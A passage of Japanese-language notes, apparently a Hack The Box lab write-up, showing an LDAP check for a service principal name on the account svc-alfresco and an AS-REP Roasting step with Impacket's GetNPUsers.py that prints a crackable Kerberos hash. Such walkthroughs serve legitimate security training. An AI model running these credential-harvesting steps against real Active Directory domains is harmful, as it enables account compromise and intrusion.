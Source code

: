 このユーザーはSPNを持ってない
- 持ってたら、Kerberoastingできたけど
```sh
└──╼ [★]$ ldapsearch -x -H ldap://10.129.206.80 -b "CN=svc-alfresco,OU=Service Accounts,DC=htb,DC=local" servicePrincipalName
# extended LDIF
#
# LDAPv3
# base <CN=svc-alfresco,OU=Service Accounts,DC=htb,DC=local> with scope subtree
# filter: (objectclass=*)
# requesting: servicePrincipalName 
#

# svc-alfresco, Service Accounts, htb.local
dn: CN=svc-alfresco,OU=Service Accounts,DC=htb,DC=local

# search result
search: 2
result: 0 Success

# numResponses: 2
# numEntries: 1

```



# Foothold
AS-REP Roastingの実行
ユーザーリストの生成
```sh
cat valid_ad_users

```
```sh
└──╼ [★]$ GetNPUsers.py htb.local/ -dc-ip 10.129.206.80 -no-pass -usersfile valid_ad_users 
Impacket v0.13.0.dev0+20250130.104306.0f4b866 - Copyright Fortra, LLC and its affiliated companies 

[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc-alfresco@HTB.LOCAL:ba1fdefa2d38cb6186a5e2879156645f$411086042bb06b79f892e39e33384a6e3df3c23465f638ad04eca0c9f908474df8f1f9776b8d459b8c3705f2f085a5b3c565ed723518d291dd183a51cb5ad3ebdc1e6ea2ed6efd1fc8bc003517e7711e04b55d28fdfa1879933f0946f00f11c928875cb6b575d6f3fd9018d6935f40ff20f7fcc39ab028ba79d285bd37df561c40f1e079b2e7f7e89c9459cceb291f1710550f3812e80abb06238a239e0d50b4b1f2bdfd8d75f25c59430f720b17308a133eb683651be4d88225273830298efb73fbd76b6a4b599c90827276a39b9729b8b811b20fd4d61f9cc0592ab631f350c9361d7a4ba7

```
